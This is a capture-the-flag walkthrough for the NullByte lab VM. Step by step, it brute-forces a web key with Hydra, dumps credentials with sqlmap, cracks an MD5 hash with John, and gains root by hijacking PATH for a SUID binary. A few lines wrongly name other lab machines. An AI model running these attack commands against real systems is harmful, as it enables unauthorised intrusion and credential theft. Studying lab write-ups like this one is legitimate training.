# NullByte: 1 Walkthrough

## Preparation
1. Download NullByte.ova.zip file ([NullByte.ova.zip](https://download.vulnhub.com/nullbyte/NullByte.ova.zip))

1. Extract the .zip file  

1. Move the extracted folder to the VM's folder  

1. Add the NullByte.ova file in the VirtualBox

1. Set the network adapter to Host-only Adapter
    * Attached to: **Host-only Adapter**
        

1. Start the NullByte1 virtual machine
    * Turn on the NullByte1 virtual machine from the VirtualBox  
      

1. Confirm the IP address of the NullByte1 virtual machine from the attack virtual machine  
    * `sudo netdiscover -i enp0s3 -r 192.168.56.0/24`  
      
      
        * 192.168.56.100: DHCP Server
        * **192.168.56.111**: NullByte1 Server  

1. Set the VulnOS2 IP address to the environment variance  
    * `export IP=192.168.56.111`  

## Reconnaissance
1. Do portscan using Nmap  
    * `sudo nmap -sC -sV -Pn -p- $IP -oN nmap_result.txt`  
      
        * -sC: Scan with default script
        * -sV: Show software name and the version
        * -Pn: Do not confirm communication before port scan (We have already confirmed the DC-2 IP address.)
        * -p-: Scan all ports (from 0 to 65535 ports)
        * -oN: Output the scan results to the specified file
    * As we see the nmap result, we can attempt to access of 80 (HTTP Service), 111 (RPCBIND Service), and 777 (SSH Service) ports.  

1. Access to the HTTP Service  
    * Access with Web browser  
      
        - `http://192.168.56.111/`  
        - There is a suspicous .gif file in the view-source page  

1. Enumerate accessible files  
    * Use the DIRB  
      
        - `dirb http://$IP /usr/share/dirb/wordlists/small.txt`  

1. Investigate the image file  
    * Download the "main.gif" file  
        - `wget http://$IP:80/main.gif`  
    * Use exiftool command  
      
        - `exiftool main.gif`  

1. Access the suspicious page  
    * Assume the "kzMb5nVYJw" is directory and access to it  
      
        - It demands to input a key  

## Execution  
1. Attack the kzMb5nVYJw form  
    * the kzMb5nVYJw form sends to "index.php" by POST method  
      
    * The form shows an error message as "invalid key"  
      
    * Use Hydra  
      
        - `hydra -l test -P ~/vulnhub/SecLists/SecLists-master/Passwords/Common-Credentials/xato-net-10-million-passwords-10000.txt $IP http-post-form "/kzMb5nVYJw/index.php:key=^PASS^:invalid key"`  
        - Password: **elite**  

1. Authenticate with the key  
    * Input the password in the kzMb5nVYJw form  
      
        - The page gets data from the "420search.php"  

1. Do SQL injection  
    * Get the database lists  
      
        - `sqlmap -u "http://$IP/kzMb5nVYJw/420search.php?usrtosearch=" --dbs`  
    * Enumerate the "seth" database tables  
      
        - `sqlmap -u "http://$IP/kzMb5nVYJw/420search.php?usrtosearch=" -D seth --tables`  
    * Investigate the users table  
      
        - `sqlmap -u "http://$IP/kzMb5nVYJw/420search.php?usrtosearch=" -D seth -T users --columns`  
    * Show users table data  
      
        - `sqlmap -u "http://$IP/kzMb5nVYJw/420search.php?usrtosearch=" -D seth -T users -C id,position,user,pass --dump`  

1. Decode the password  
    * Decode with Base64  
        - `echo -n "YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE" | base64 -d`  
        - The hash: c6d6bd7ebf806f43c76acc3681703b81

1. Analyze the hash  
    * Use John  
      
        - `echo "c6d6bd7ebf806f43c76acc3681703b81" > hash.txt`  
        - `john --format=raw-md5 hash.txt`  
        - ramses's password: **omega**

## Persistence  
1. Access to the SSH service  
    * Use ramses password  
      
        - `ssh ramses@$IP -p 777`  

1. Investigate the commnads histories  
    * See .bash_history  
      
        - `ls -la`  
        - `cat .bash_history`  
        - Move to "/var/www/backup" and execute the "procwatch" program  

1. Investigate the file  
    * See "procwatch" file  
      
        - `cd /var/www/backup`  
        - `ls -la procwatch`  
        - `file procwatch`  
        - The "procwatch" file is SUID file  
    * Execute the procwatch file  
      
        - The file is the "ps" command  

## Privilege Escalation  
1. Do privilege escalation with the procwatch file  
    * Change the PATH priority  
        - `export PATH=/tmp:$PATH`  
    * Make false ps shell  
        - `echo "/bin/sh" > /tmp/ps`  
        - `chmod 777 /tmp/ps`  
    * Execute the "procwatch" file  
      
        - It displays the root prompt  

## Credential Access  
1. Open the root flag file  
    * Open the proof.txt  
      